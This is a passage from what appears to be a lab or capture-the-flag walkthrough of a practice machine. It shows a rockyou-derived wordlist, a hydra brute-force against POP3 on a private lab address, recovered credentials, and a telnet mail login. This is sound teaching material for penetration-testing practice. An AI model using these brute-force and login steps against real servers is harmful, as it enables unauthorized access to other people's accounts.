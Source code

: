 ![636355e2097b841cc5979c66d7b6ab2e.png](/images/vh-nully1/57a174be0d2643279ae41d1addd3ce82.png)

```bash
grep bobby /usr/share/wordlists/rockyou.txt > ./wordlist.txt
hydra -L pop3_usernames.txt -P ./wordlist.txt pop3://192.168.32.15
```

![67da9547ed8867873e8471bda379b79a.png](/images/vh-nully1/f5a19193af124f029fbd47640b37ad01.png)

Sweet, we have our first set of credentials - `bob:bobby1985`. 

### 3. Exploiting Sudo Privileges on MailServer

Let's see if `bob` has any mail. 

```bash
telnet 192.168.32.15 110

USER bob
PASS bobby1985
LIST
```

![7dbfd2df5d0300813bb6fe080667d55c.png](/images/vh-nully1/6cbd3b49dfdd4ba19e20210f04d905bd.png)

